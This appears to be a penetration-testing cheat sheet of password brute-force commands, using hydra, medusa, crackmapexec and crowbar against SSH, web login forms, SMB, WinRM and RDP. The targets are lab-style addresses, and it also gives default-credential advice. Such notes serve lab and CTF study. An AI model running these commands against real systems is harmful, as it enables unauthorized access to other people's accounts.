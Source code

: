 # Brute Force List

## Before Brute Force Rules

### Default Credentials

Always try default credentials first. Often, you will find that default configurations use the same password as the username:

```
admin:admin
username:username
```

Search on the internet to find the default credentials of a service or application:

```
default credentials of <service_name_here>
<service_name_here> default credentials
```

SecLists has a nice default credentials wordlists:

{% embed url="https://github.com/danielmiessler/SecLists/blob/master/Passwords/Default-Credentials/default-passwords.csv" %}

## SSH

```shell
hydra -l username -P rockyou.txt ssh://<IP>
```

## HTTP POST

```shell
hydra -l admin -P /usr/share/wordlists/rockyou.txt deliver.undiscovered.thm http-post-form "/cms/index.php:username=^USER^&userpw=^PASS^:User unknown or password wrong"
```

```
hydra 10.11.0.22 http-form-post "/form/frontpage.php:user=admin&pass=^PASS^:INVALID LOGIN" -l admin -P /usr/share/wordlists/rockyou.txt -vV -f
```

### htaccess

```
medusa -h 10.11.0.22 -u admin -P /usr/share/wordlists/rockyou.txt -M http -m DIR:/admin
```

## SMB

```
hydra -L users.txt -p password smb://10.10.10.169
```

```
hydra -l username -P passwords.txt smb://10.10.10.169
```

```
hydra -L users.txt -P passwords.txt smb://10.10.10.169
```

## WinRM

```shell
crackmapexec winrm 10.10.140.97 -u username -p passwords.txt
```

## RDP

```
crowbar -b rdp -s 10.11.0.22/32 -u admin -C ~/password-file.txt -n 1
```

